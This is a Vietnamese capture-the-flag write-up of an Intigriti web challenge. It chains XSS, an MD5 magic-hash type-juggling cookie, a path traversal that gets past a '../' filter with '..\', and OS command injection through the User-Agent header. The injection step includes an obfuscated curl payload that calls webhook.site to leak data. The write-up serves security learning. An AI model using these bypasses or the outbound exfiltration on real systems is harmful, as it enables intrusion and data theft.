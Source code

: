# [Intigriti] Challenge-0423
<p>Đầu tiên, tại /challenge.php nhận về một giao diện trang login. Đề bài đã cho sẵn username=strange và password=monkey để login. Sau khi login, server trả về 2 cookie là username và account_type rồi chuyển hướng về /dashboard.php.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image.png)

<p>Thay đổi cookie username và account_type bằng cách giá trị khác nhau nhưng không có dấu hiệu gì đặc biệt ở response.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-1.png)

<p>Kiểm tra các thư mục có listing hay không? Kết quả là không được phép truy cập và qua việc này thì phát hiện ra được thông tin web server là nginx/1.24.0. Bây giờ, có 2 hướng để đi tiếp là thử các payload SQL injection ở chức năng login hoặc là tìm các lỗi nằm trên nginx/1.24.0. Tạm thời ưu tiên test chức năng login trước.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-2.png)

<p>Sử dụng kí tự ' thì server trả về response yêu cầu điều hướng tới /index_error.php?error=invalid username or password.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-3.png)

<p>Sau đó, nhận được response có một dòng comment "Nhớ sử dụng strict comparison" -> Có vẻ như đây là gợi ý trang web bị lỗi type juggling. Các vị trí có khả năng bị type juggling có thể xảy ra là login, cookie. Điều đáng chú ý là giá trị của tham số error có vẻ như được render trực tiếp ra HTML response -> Có khả năng bị XSS.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-4.png)

<p>Thử &lth1&gta thì xác định HTML injection thành công.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-5.png)

<p>Thử &ltscript&gtalert(origin)&lt/script&gt thì xác định đúng trang web này đã bị XSS.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-6.png)

<p>Quay về trang login, mình có thắc mắc là server có nhận dữ liệu dưới dạng nào khác ngoài form không ? (ví dụ như là json, xml,...). Sau khi đổi định dạng là json và gửi đi thì phát hiện ra có vẻ như trang này chưa tắt cấu hình display_errors dẫn đến hiển thị waring ở phía client. Dựa vào warning thì xác định được 2 điều: không nhận dữ liệu json khi login và đường dẫn tới trang login là /app/login.php. Vì không nhận dữ liệu json nên giả thuyết sử dụng "psw": true là coi như loại -> Khả năng bị type juggling còn lại là nằm trong cookie.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-7.png)

<p>Giá trị của cookie account_type khá đặc biệt, là một chuỗi không rõ có ý nghĩa gì và khi thay đổi thì response cũng không có dấu hiệu gì đặc biệt. Dựa vào tên "account_type" thì mình đoán có thể giá trị là một mã để phân biệt các loại tài khoản (VIP, Normal,...). Có thể là các giá trị sẽ được hash, encrypt,... để so sánh với giá trị nào đó ở phía server. Liên quan đến hash thì trong type juggling có các chuỗi được gọi là magic hash. Ý tưởng bây giờ là thử các hash phổ biến như MD5, SHA1,.. Tìm chuỗi sau khi hash MD5 có dạng 0e... -> Chọn "etqaTTFXeujI" và response trả về có một element khá đặc biệt. Dựa vào tiêu đề &lt;h3 id=&quot;custom_image.php - try to catch the flag.txt ;)&quot;&gt;A special golden wall just for Premium Users ;) &lt;/h3&gt; có thể đoán rằng truy cập đến /custom_image.php để tìm flag.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-8.png)

<p>Tại /custom_image.php, browser render ra một image là một bức tường màu vàng. Dựa vào tên file thì khả năng cao là endpoint này xử lý gì đó rồi mới trả về nội dung tấm ảnh chứ sử dụng file .php chỉ trả về nội dung ảnh thì không hợp lí cho lắm. Tại vì, hầu hết những ảnh trên trang web này đều được lưu tập trung trong các thư mục cụ thể như là resources hoặc images. Bây giờ, có 2 hướng để tiếp tục là fuzz các parameter tại /custom_image.php hoặc là đi tìm bí mật nào đó được giấu trong ảnh này</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-9.png)

<p>Sử dụng một số tools: exiftool, steghide,... thì kết quả cũng không có gì đáng chú ý -> Hướng này có vẻ fail</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-10.png)

<p>Quay lại hướng thứ nhất, sử dụng ffuf để fuzz parameter. Vì trong lần fuzz đầu tiên có khá nhiều kết quả có cùng kích thước nên tạm thời filter các response có cùng size -> Kết quả tìm được một parameter là file.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-11.png)

<p>Chưa rõ là tham số file này yêu cầu giá trị là gì. Có thể là đường dẫn tương đối hoặc tuyệt đối. Tuy nhiên, vì đã biết là trang này sẽ hiển thị các warning và error nên mình sẽ cố gắng thử các trường hợp gây ra error/warning để leak thêm thông tin. Thử truyền tham số với kiểu array thì gây ra lỗi thành công. Dựa vào stack trace: lỗi bắt đầu từ dòng code thứ 12 khi sử dụng strpos(Array, "../") -> mình đoán tham số đầu tiên của hàm strpos là biến nhận giá trị của tham số file vì tôi đã truyền vào một mảng nên bị lỗi là đúng và tham số thứ hai là "../" -> Có vẻ như dòng code này dùng để kiểm tra chuỗi "../" gây path traversal trong giá trị của tham số file.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-12.png)

<p>Sử dụng một đường dẫn tuyệt đối có sẵn trên web để test. Kết quả là hiển thị một thông báo lỗi leak ra file_get_content và đọc nội dung từ đường dẫn lấy từ tham số file.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-13.png)

<p>Thử thêm chuỗi "../" thì bị replace đi -> Có vẻ như strpos ở dòng 12 sẽ tìm chuỗi "../" và sau đó thực hiện replace rồi mới đưa vào hàm file_get_content. Chưa rõ là việc replace này có lặp lại nhiều lần hay không nên cần phải test thêm.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-14.png)

<p>Chèn thêm các chuỗi "../" vào giữa thì tất cả đều đã bị replace -> Hướng sử dụng "../" có vẻ fail. Tuy nhiên, nếu server sử dụng hệ điều hành Windows thì vẫn còn một cách khác. Đó là sử dụng kí tự \ thay vì /.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-15.png)

<p>Vậy là thành công bypass việc kiểm tra "../" bằng cách sử dụng "..\"</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-16.png)

<p>Tuy nhiên, sử dụng bao nhiêu "..\" cũng không tìm thấy flag.txt -> Có vẻ như thư mục www nằm trong thư mục chứa mã nguồn của trang web chứ không phải nằm trong thư mục gốc</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-17.png)

<p>Thay thế bằng www/web/images/ và thử lại -> Thành công</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-18.png)

<p>Chuyển đổi kiểu dữ liệu thành text/plain để xem nội dung gốc. Có vẻ nội dung gợi ý truy cập đến /e7f717ed-d429-4d00-861d-4137d1ef29az/9709e993-be43-4157-879b-78b647f15ff7/admin.php.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-19.png)

<p>Tương tự, ra được nội dung admin.php. Có một dòng code sử dung shell_exec nhận giá trị từ trường User-Agent trên HTTP Header -> Khả năng bị OS Command injection. Nhìn chung thì việc sử dụng blacklist và sau đó replace trong trường này vẫn bypass được. Thứ nhất, blacklist vẫn thiếu  các kí tự như: ` $ ( ) . Thứ hai, việc replace các chuỗi khớp với phần trong blacklist thì hợp lí với các ký tự lẻ còn với từ 2 kí tự khác nhau trở lên thì hoàn toàn có thể chèn thêm chuỗi ở giữa để bypass.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-20.png)

<p>Đầu tiên, sử dụng payload: `cucurlrl${IFS}https://webhook.site/7d182ba8-11b7-405f-bcdd-ad2ad82e6254` để xem thực sự có tồn tại lệnh curl và server có được phép kết nối ra ngoài internet hay không. Có request gửi tới webhook -> Curl thành công. Tiếp theo, để leak data ra ngoài bằng lệnh curl thì có thể truyền qua tham số hoặc dùng data-binary . Tuy nhiên, cách sử dụng data-binary có vẻ không khả thi.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-21.png)

<p>Ban đầu, khi sử dụng cat để đọc nội dung flag.txt thì nội dung trả về là rỗng. Có vẻ như tên file chứa flag không phải là flag.txt nên thay vào đó mình sử dụng kí tự * để đọc file .txt. -> Lấy được flag thành công.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-22.png)

<p>Tóm lại, đây là toàn bộ nội dung về challenge. Hy vọng writeup này giúp ích cho bạn 🔥.</p>
